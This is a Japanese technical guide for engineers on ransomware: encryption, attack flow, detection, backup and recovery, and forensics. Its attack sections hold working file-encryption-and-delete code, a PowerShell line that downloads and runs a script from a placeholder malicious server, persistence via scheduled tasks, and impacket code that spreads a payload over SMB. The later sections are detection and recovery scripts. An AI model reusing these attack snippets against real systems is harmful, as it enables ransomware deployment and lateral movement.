

# ランサムウェア技術詳細ガイド
## エンジニア向け深掘り解説

---

## 目次
1. [暗号化技術の詳細](#1-暗号化技術の詳細)
2. [攻撃フローの技術分析](#2-攻撃フローの技術分析)
3. [検知・防御の実装](#3-検知防御の実装)
4. [コード例とスクリプト](#4-コード例とスクリプト)
5. [フォレンジック分析](#5-フォレンジック分析)

---

## 1. 暗号化技術の詳細

### 1.1 使用される暗号化アルゴリズム

#### AES（Advanced Encryption Standard）
```python
# ランサムウェアで一般的に使用されるAES暗号化の例
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import os

def encrypt_file_aes(file_path, key):
    """
    ファイルをAES暗号化する（教育目的のみ）
    """
    # 初期化ベクトル（IV）を生成
    iv = get_random_bytes(16)
    
    # AES暗号化オブジェクトを作成
    cipher = AES.new(key, AES.MODE_CBC, iv)
    
    with open(file_path, 'rb') as infile:
        data = infile.read()
    
    # パディングを追加（AESはブロック暗号のため）
    padding_length = 16 - (len(data) % 16)
    data += bytes([padding_length]) * padding_length
    
    # 暗号化実行
    encrypted_data = cipher.encrypt(data)
    
    # 暗号化されたファイルを保存
    with open(file_path + '.encrypted', 'wb') as outfile:
        outfile.write(iv + encrypted_data)
    
    # 元ファイルを削除
    os.remove(file_path)
```

#### RSA暗号化（キー管理）
```python
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP

def generate_rsa_keypair():
    """
    RSAキーペアを生成（攻撃者が事前に準備）
    """
    key = RSA.generate(2048)
    private_key = key.export_key()
    public_key = key.publickey().export_key()
    
    return private_key, public_key

def encrypt_aes_key_with_rsa(aes_key, public_key):
    """
    AESキーをRSA公開鍵で暗号化
    """
    rsa_key = RSA.import_key(public_key)
    cipher = PKCS1_OAEP.new(rsa_key)
    encrypted_aes_key = cipher.encrypt(aes_key)
    
    return encrypted_aes_key
```

### 1.2 キー管理の仕組み



---

## 2. 攻撃フローの技術分析

### 2.1 初期侵入手法

#### PowerShellを使った攻撃例
```powershell
# 悪意のあるPowerShellスクリプト例（検知回避技術）

# 1. 実行ポリシーの回避
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "..."

# 2. Base64エンコードによる難読化
$encoded = "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0AC..."
$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded))
Invoke-Expression $decoded

# 3. メモリ内での実行（ファイルレス攻撃）
$url = "http://malicious-server.com/payload.ps1"
$script = (New-Object Net.WebClient).DownloadString($url)
Invoke-Expression $script
```

#### WMI（Windows Management Instrumentation）の悪用
```powershell
# WMIを使った永続化
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -Command `"malicious_code`""
$trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -TaskName "SystemUpdate" -Action $action -Trigger $trigger
```

### 2.2 権限昇格手法

#### UAC（User Account Control）回避
```python
import ctypes
import sys

def is_admin():
    """
    管理者権限で実行されているかチェック
    """
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

def elevate_privileges():
    """
    権限昇格を試行
    """
    if not is_admin():
        # UAC回避技術の例（教育目的）
        ctypes.windll.shell32.ShellExecuteW(
            None, "runas", sys.executable, " ".join(sys.argv), None, 1
        )
```

### 2.3 横展開（Lateral Movement）

#### SMBプロトコルの悪用
```python
import socket
from impacket.smbconnection import SMBConnection

def scan_smb_shares(target_ip):
    """
    SMB共有をスキャンして横展開の足がかりを探す
    """
    try:
        conn = SMBConnection(target_ip, target_ip)
        conn.login('', '')  # Null session
        
        shares = conn.listShares()
        for share in shares:
            print(f"Found share: {share['shi1_netname']}")
            
    except Exception as e:
        print(f"SMB scan failed: {e}")

def spread_via_smb(target_ip, username, password, payload_path):
    """
    SMB経由でマルウェアを拡散
    """
    try:
        conn = SMBConnection(target_ip, target_ip)
        conn.login(username, password)
        
        # ペイロードをアップロード
        with open(payload_path, 'rb') as f:
            conn.putFile('C$', 'Windows/Temp/update.exe', f)
        
        # リモート実行
        conn.createService('MaliciousService', 'C:\\Windows\\Temp\\update.exe')
        
    except Exception as e:
        print(f"SMB spread failed: {e}")
```

---

## 3. 検知・防御の実装

### 3.1 ファイルシステム監視

#### Pythonでのリアルタイム監視
```python
import time
import os
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler
import hashlib

class RansomwareDetector(FileSystemEventHandler):
    def __init__(self):
        self.suspicious_extensions = [
            '.encrypted', '.locked', '.crypto', '.crypt',
            '.aaa', '.abc', '.xyz', '.zzz'
        ]
        self.file_changes = {}
        self.alert_threshold = 10  # 10ファイル以上の変更で警告
        
    def on_modified(self, event):
        if not event.is_directory:
            self.check_suspicious_activity(event.src_path)
    
    def on_created(self, event):
        if not event.is_directory:
            self.check_suspicious_extension(event.src_path)
    
    def check_suspicious_extension(self, file_path):
        """
        疑わしい拡張子をチェック
        """
        for ext in self.suspicious_extensions:
            if file_path.endswith(ext):
                self.trigger_alert(f"Suspicious file created: {file_path}")
                break
    
    def check_suspicious_activity(self, file_path):
        """
        大量のファイル変更を検知
        """
        current_time = time.time()
        
        # 1分以内のファイル変更をカウント
        recent_changes = [
            t for t in self.file_changes.values() 
            if current_time - t < 60
        ]
        
        if len(recent_changes) > self.alert_threshold:
            self.trigger_alert("Mass file modification detected!")
        
        self.file_changes[file_path] = current_time
    
    def trigger_alert(self, message):
        """
        アラートを発生
        """
        print(f"? RANSOMWARE ALERT: {message}")
        # ここで実際の対応処理を実装
        # - ネットワーク切断
        # - プロセス停止
        # - 管理者通知
        self.emergency_response()
    
    def emergency_response(self):
        """
        緊急対応処理
        """
        # ネットワークインターフェースを無効化
        os.system("netsh interface set interface 'Ethernet' admin=disable")
        
        # 疑わしいプロセスを停止
        os.system("taskkill /f /im suspicious_process.exe")
        
        # ログに記録
        with open("ransomware_alert.log", "a") as f:
            f.write(f"{time.ctime()}: Ransomware activity detected\n")

# 監視開始
def start_monitoring(path):
    event_handler = RansomwareDetector()
    observer = Observer()
    observer.schedule(event_handler, path, recursive=True)
    observer.start()
    
    try:
        while True:
            time.sleep(1)
    except KeyboardInterrupt:
        observer.stop()
    observer.join()

# 使用例
if __name__ == "__main__":
    start_monitoring("C:\\Users\\")
```

### 3.2 ネットワーク監視

#### 不審な通信の検知
```python
import scapy.all as scapy
import requests
import json

class NetworkMonitor:
    def __init__(self):
        self.suspicious_domains = [
            'tor2web.org', 'onion.to', 'onion.link'
        ]
        self.c2_indicators = [
            'bitcoin', 'ransom', 'decrypt', 'payment'
        ]
    
    def packet_handler(self, packet):
        """
        パケットを解析して不審な通信を検知
        """
        if packet.haslayer(scapy.Raw):
            payload = packet[scapy.Raw].load.decode('utf-8', errors='ignore')
            
            # C&Cサーバーとの通信を検知
            for indicator in self.c2_indicators:
                if indicator.lower() in payload.lower():
                    self.alert_c2_communication(packet)
                    break
    
    def alert_c2_communication(self, packet):
        """
        C&Cサーバー通信のアラート
        """
        src_ip = packet[scapy.IP].src
        dst_ip = packet[scapy.IP].dst
        
        print(f"? Possible C&C communication: {src_ip} -> {dst_ip}")
        
        # 外部脅威インテリジェンスAPIで確認
        self.check_threat_intelligence(dst_ip)
    
    def check_threat_intelligence(self, ip):
        """
        脅威インテリジェンスAPIでIPを確認
        """
        try:
            # VirusTotalのAPIを使用（要APIキー）
            url = f"https://www.virustotal.com/vtapi/v2/ip-address/report"
            params = {
                'apikey': 'YOUR_API_KEY',
                'ip': ip
            }
            
            response = requests.get(url, params=params)
            result = response.json()
            
            if result.get('positives', 0) > 0:
                print(f"??  Malicious IP detected: {ip}")
                self.block_ip(ip)
                
        except Exception as e:
            print(f"Threat intelligence check failed: {e}")
    
    def block_ip(self, ip):
        """
        悪意のあるIPをブロック
        """
        # Windowsファイアウォールでブロック
        os.system(f"netsh advfirewall firewall add rule name='Block {ip}' dir=out action=block remoteip={ip}")
        print(f"??  Blocked IP: {ip}")
    
    def start_monitoring(self, interface=None):
        """
        ネットワーク監視を開始
        """
        print("Starting network monitoring...")
        scapy.sniff(iface=interface, prn=self.packet_handler, store=0)

# 使用例
if __name__ == "__main__":
    monitor = NetworkMonitor()
    monitor.start_monitoring()
```

### 3.3 プロセス監視

#### 疑わしいプロセスの検知
```python
import psutil
import time
import re

class ProcessMonitor:
    def __init__(self):
        self.suspicious_patterns = [
            r'.*\.exe.*--encrypt.*',
            r'.*crypt.*',
            r'.*ransom.*',
            r'.*locker.*'
        ]
        self.high_cpu_threshold = 80.0
        self.monitored_processes = {}
    
    def scan_processes(self):
        """
        実行中のプロセスをスキャン
        """
        for proc in psutil.process_iter(['pid', 'name', 'cmdline', 'cpu_percent']):
            try:
                proc_info = proc.info
                
                # コマンドラインの疑わしいパターンをチェック
                if proc_info['cmdline']:
                    cmdline = ' '.join(proc_info['cmdline'])
                    for pattern in self.suspicious_patterns:
                        if re.match(pattern, cmdline, re.IGNORECASE):
                            self.alert_suspicious_process(proc_info)
                
                # 高CPU使用率のプロセスをチェック
                if proc_info['cpu_percent'] > self.high_cpu_threshold:
                    self.check_high_cpu_process(proc_info)
                    
            except (psutil.NoSuchProcess, psutil.AccessDenied):
                continue
    
    def alert_suspicious_process(self, proc_info):
        """
        疑わしいプロセスのアラート
        """
        print(f"? Suspicious process detected:")
        print(f"   PID: {proc_info['pid']}")
        print(f"   Name: {proc_info['name']}")
        print(f"   Command: {' '.join(proc_info['cmdline'])}")
        
        # プロセスを停止
        self.terminate_process(proc_info['pid'])
    
    def terminate_process(self, pid):
        """
        プロセスを強制終了
        """
        try:
            proc = psutil.Process(pid)
            proc.terminate()
            print(f"??  Terminated process PID: {pid}")
        except Exception as e:
            print(f"Failed to terminate process: {e}")
    
    def start_monitoring(self):
        """
        プロセス監視を開始
        """
        print("Starting process monitoring...")
        while True:
            self.scan_processes()
            time.sleep(5)  # 5秒間隔でスキャン

# 使用例
if __name__ == "__main__":
    monitor = ProcessMonitor()
    monitor.start_monitoring()
```

---

## 4. コード例とスクリプト

### 4.1 バックアップ自動化スクリプト

#### PowerShellバックアップスクリプト
```powershell
# 自動バックアップスクリプト（ランサムウェア対策）

param(
    [string]$SourcePath = "C:\ImportantData",
    [string]$BackupPath = "D:\Backup",
    [string]$LogPath = "C:\Logs\backup.log"
)

function Write-Log {
    param([string]$Message)
    $timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
    "$timestamp - $Message" | Out-File -FilePath $LogPath -Append
    Write-Host "$timestamp - $Message"
}

function Test-BackupIntegrity {
    param([string]$BackupFile)
    
    try {
        # バックアップファイルの整合性チェック
        $hash = Get-FileHash -Path $BackupFile -Algorithm SHA256
        Write-Log "Backup integrity check passed: $($hash.Hash)"
        return $true
    }
    catch {
        Write-Log "Backup integrity check failed: $($_.Exception.Message)"
        return $false
    }
}

function Create-Backup {
    try {
        $timestamp = Get-Date -Format "yyyyMMdd_HHmmss"
        $backupFileName = "backup_$timestamp.zip"
        $fullBackupPath = Join-Path $BackupPath $backupFileName
        
        Write-Log "Starting backup: $SourcePath -> $fullBackupPath"
        
        # 7-Zipを使用して暗号化バックアップを作成
        $password = "SecureBackupPassword123!"
        & "C:\Program Files\7-Zip\7z.exe" a -tzip -p$password $fullBackupPath $SourcePath
        
        if ($LASTEXITCODE -eq 0) {
            Write-Log "Backup created successfully: $fullBackupPath"
            
            # 整合性チェック
            if (Test-BackupIntegrity -BackupFile $fullBackupPath) {
                # 古いバックアップを削除（30日以上前）
                $cutoffDate = (Get-Date).AddDays(-30)
                Get-ChildItem -Path $BackupPath -Filter "backup_*.zip" | 
                    Where-Object { $_.CreationTime -lt $cutoffDate } | 
                    Remove-Item -Force
                
                Write-Log "Backup process completed successfully"
            }
        }
        else {
            Write-Log "Backup creation failed with exit code: $LASTEXITCODE"
        }
    }
    catch {
        Write-Log "Backup error: $($_.Exception.Message)"
    }
}

# メイン処理
Write-Log "=== Backup Process Started ==="
Create-Backup
Write-Log "=== Backup Process Finished ==="
```

### 4.2 復旧スクリプト

#### 自動復旧スクリプト
```python
import os
import shutil
import zipfile
import hashlib
import logging
from datetime import datetime

class RecoveryManager:
    def __init__(self, backup_path, restore_path, log_path):
        self.backup_path = backup_path
        self.restore_path = restore_path
        self.log_path = log_path
        
        # ログ設定
        logging.basicConfig(
            filename=log_path,
            level=logging.INFO,
            format='%(asctime)s - %(levelname)s - %(message)s'
        )
        self.logger = logging.getLogger(__name__)
    
    def find_latest_backup(self):
        """
        最新のバックアップファイルを検索
        """
        try:
            backup_files = [
                f for f in os.listdir(self.backup_path) 
                if f.startswith('backup_') and f.endswith('.zip')
            ]
            
            if not backup_files:
                self.logger.error("No backup files found")
                return None
            
            # 最新のファイルを取得
            latest_backup = max(backup_files, key=lambda x: os.path.getctime(
                os.path.join(self.backup_path, x)
            ))
            
            return os.path.join(self.backup_path, latest_backup)
            
        except Exception as e:
            self.logger.error(f"Error finding backup: {e}")
            return None
    
    def verify_backup_integrity(self, backup_file):
        """
        バックアップファイルの整合性を確認
        """
        try:
            with zipfile.ZipFile(backup_file, 'r') as zip_ref:
                # ZIPファイルの整合性テスト
                bad_file = zip_ref.testzip()
                if bad_file:
                    self.logger.error(f"Corrupted file in backup: {bad_file}")
                    return False
                
                self.logger.info("Backup integrity verification passed")
                return True
                
        except Exception as e:
            self.logger.error(f"Backup integrity check failed: {e}")
            return False
    
    def restore_from_backup(self, backup_file, password):
        """
        バックアップから復旧
        """
        try:
            self.logger.info(f"Starting restore from: {backup_file}")
            
            # 復旧先ディレクトリを準備
            if os.path.exists(self.restore_path):
                shutil.rmtree(self.restore_path)
            os.makedirs(self.restore_path, exist_ok=True)
            
            # パスワード付きZIPファイルを展開
            with zipfile.ZipFile(backup_file, 'r') as zip_ref:
                zip_ref.extractall(self.restore_path, pwd=password.encode())
            
            self.logger.info("Restore completed successfully")
            return True
            
        except Exception as e:
            self.logger.error(f"Restore failed: {e}")
            return False
    
    def create_recovery_report(self):
        """
        復旧レポートを作成
        """
        report_path = os.path.join(self.restore_path, "recovery_report.txt")
        
        with open(report_path, 'w') as f:
            f.write("=== RANSOMWARE RECOVERY REPORT ===\n")
            f.write(f"Recovery Date: {datetime.now()}\n")
            f.write(f"Backup Source: {self.backup_path}\n")
            f.write(f"Restore Destination: {self.restore_path}\n")
            f.write("\nRecovered Files:\n")
            
            for root, dirs, files in os.walk(self.restore_path):
                for file in files:
                    if file != "recovery_report.txt":
                        file_path = os.path.join(root, file)
                        file_size = os.path.getsize(file_path)
                        f.write(f"  {file_path} ({file_size} bytes)\n")
        
        self.logger.info(f"Recovery report created: {report_path}")

# 使用例
def main():
    recovery = RecoveryManager(
        backup_path="D:\\Backup",
        restore_path="C:\\Recovered",
        log_path="C:\\Logs\\recovery.log"
    )
    
    # 最新のバックアップを検索
    latest_backup = recovery.find_latest_backup()
    if not latest_backup:
        print("No backup found!")
        return
    
    # 整合性確認
    if not recovery.verify_backup_integrity(latest_backup):
        print("Backup integrity check failed!")
        return
    
    # 復旧実行
    password = "SecureBackupPassword123!"
    if recovery.restore_from_backup(latest_backup, password):
        recovery.create_recovery_report()
        print("Recovery completed successfully!")
    else:
        print("Recovery failed!")

if __name__ == "__main__":
    main()
```

---

## 5. フォレンジック分析

### 5.1 感染痕跡の調査

#### レジストリ分析
```python
import winreg
import json
from datetime import datetime

class RegistryAnalyzer:
    def __init__(self):
        self.suspicious_keys = [
            r"SOFTWARE\Microsoft\Windows\CurrentVersion\Run",
            r"SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce",
            r"SYSTEM\CurrentControlSet\Services"
        ]
    
    def analyze_startup_entries(self):
        """
        スタートアップエントリを分析
        """
        findings = []
        
        for key_path in self.suspicious_keys:
            try:
                key = winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE, key_path)
                
                i = 0
                while True:
                    try:
                        name, value, reg_type = winreg.EnumValue(key, i)
                        
                        # 疑わしいエントリをチェック
                        if self.is_suspicious_entry(name, value):
                            findings.append({
                                'key_path': key_path,
                                'name': name,
                                'value': value,
                                'type': reg_type,
                                'timestamp': datetime.now().isoformat()
                            })
                        
                        i += 1
                    except WindowsError:
                        break
                
                winreg.CloseKey(key)
                
            except Exception as e:
                print(f"Error analyzing registry key {key_path}: {e}")
        
        return findings
    
    def is_suspicious_entry(self, name, value):
        """
        疑わしいレジストリエントリかチェック
        """
        suspicious_indicators = [
            'crypt', 'ransom', 'locker', 'encrypt',
            'temp\\', 'appdata\\', '.tmp', '.exe'
        ]
        
        entry_text = f"{name} {value}".lower()
        
        for indicator in suspicious_indicators:
            if indicator in entry_text:
                return True
        
        return False
    
    def generate_report(self, findings):
        """
        分析レポートを生成
        """
        report = {
            'analysis_date': datetime.now().isoformat(),
            'total_findings': len(findings),
            'findings': findings
        }
        
        with open('registry_analysis_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        print(f"Registry analysis completed. {len(findings)} suspicious entries found.")

# 使用例
analyzer = RegistryAnalyzer()
findings = analyzer.analyze_startup_entries()
analyzer.generate_report(findings)
```

### 5.2 ネットワーク通信ログ分析

#### ログ分析スクリプト
```python
import re
import json
from collections import defaultdict
from datetime import datetime

class NetworkLogAnalyzer:
    def __init__(self, log_file):
        self.log_file = log_file
        self.suspicious_domains = [
            '.onion', 'tor2web', 'bitcoin', 'ransom',
            'decrypt', 'payment', 'unlock'
        ]
        self.suspicious_ips = []
        
    def parse_log_entry(self, line):
        """
        ログエントリを解析
        """
        # 一般的なファイアウォールログの形式を想定
        pattern = r'(\d{4}-\d{2}-\d{2} \d{2}:\d{2}:\d{2})\s+(\w+)\s+(\d+\.\d+\.\d+\.\d+):(\d+)\s+->\s+(\d+\.\d+\.\d+\.\d+):(\d+)\s+(.+)'
        
        match = re.match(pattern, line)
        if match:
            return {
                'timestamp': match.group(1),
                'protocol': match.group(2),
                'src_ip': match.group(3),
                'src_port': match.group(4),
                'dst_ip': match.group(5),
                'dst_port': match.group(6),
                'details': match.group(7)
            }
        return None
    
    def analyze_logs(self):
        """
        ログファイルを分析
        """
        suspicious_connections = []
        connection_stats = defaultdict(int)
        
        try:
            with open(self.log_file, 'r') as f:
                for line in f:
                    entry = self.parse_log_entry(line.strip())
                    if not entry:
                        continue
                    
                    # 統計情報を更新
                    connection_stats[entry['dst_ip']] += 1
                    
                    # 疑わしい通信をチェック
                    if self.is_suspicious_connection(entry):
                        suspicious_connections.append(entry)
        
        except FileNotFoundError:
            print(f"Log file not found: {self.log_file}")
            return [], {}
        
        return suspicious_connections, dict(connection_stats)
    
    def is_suspicious_connection(self, entry):
        """
        疑わしい通信かチェック
        """
        # 疑わしいドメインへの通信
        for domain in self.suspicious_domains:
            if domain in entry['details'].lower():
                return True
        
        # 異常なポート番号
        suspicious_ports = ['4444', '8080', '9999', '1337']
        if entry['dst_port'] in suspicious_ports:
            return True
        
        # 大量データ転送の兆候
        if 'bytes' in entry['details']:
            bytes_match = re.search(r'(\d+)\s*bytes', entry['details'])
            if bytes_match and int(bytes_match.group(1)) > 1000000:  # 1MB以上
                return True
        
        return False
    
    def generate_analysis_report(self, suspicious_connections, connection_stats):
        """
        分析レポートを生成
        """
        # 最も通信頻度の高いIPを特定
        top_destinations = sorted(
            connection_stats.items(), 
            key=lambda x: x[1], 
            reverse=True
        )[:10]
        
        report = {
            'analysis_date': datetime.now().isoformat(),
            'log_file': self.log_file,
            'total_suspicious_connections': len(suspicious_connections),
            'suspicious_connections': suspicious_connections,
            'top_destinations': top_destinations,
            'recommendations': self.generate_recommendations(suspicious_connections)
        }
        
        with open('network_analysis_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        print(f"Network log analysis completed.")
        print(f"Found {len(suspicious_connections)} suspicious connections.")
    
    def generate_recommendations(self, suspicious_connections):
        """
        推奨対策を生成
        """
        recommendations = []
        
        if suspicious_connections:
            # 疑わしいIPアドレスを抽出
            suspicious_ips = list(set([conn['dst_ip'] for conn in suspicious_connections]))
            
            recommendations.append(f"Block the following suspicious IP addresses: {', '.join(suspicious_ips)}")
            recommendations.append("Implement DNS filtering to block malicious domains")
            recommendations.append("Monitor outbound connections on unusual ports")
            recommendations.append("Implement data loss prevention (DLP) solutions")
        
        return recommendations

# 使用例
analyzer = NetworkLogAnalyzer('firewall.log')
suspicious_connections, connection_stats = analyzer.analyze_logs()
analyzer.generate_analysis_report(suspicious_connections, connection_stats)
```

---

## まとめ

このガイドでは、ランサムウェアの技術的な詳細について以下の内容を説明しました：

### 重要なポイント
1. **暗号化技術**: AES + RSAの組み合わせが一般的
2. **攻撃フロー**: 初期侵入 → 権限昇格 → 横展開 → 暗号化
3. **検知技術**: ファイル監視、ネットワーク監視、プロセス監視
4. **対応技術**: 自動バックアップ、復旧スクリプト
5. **フォレンジック**: レジストリ分析、ログ分析

### エンジニアとしての対応
- **予防的監視**: リアルタイム検知システムの実装
- **自動化**: バックアップと復旧の自動化
- **分析能力**: インシデント後の詳細分析
- **継続学習**: 新しい攻撃手法への対応

---

**注意**: このガイドの内容は教育目的のみです。悪意のある目的での使用は厳禁です。

**作成日**: 2024年10月29日  
**対象**: 中級?上級エンジニア  
**更新頻度**: 四半期ごと推奨
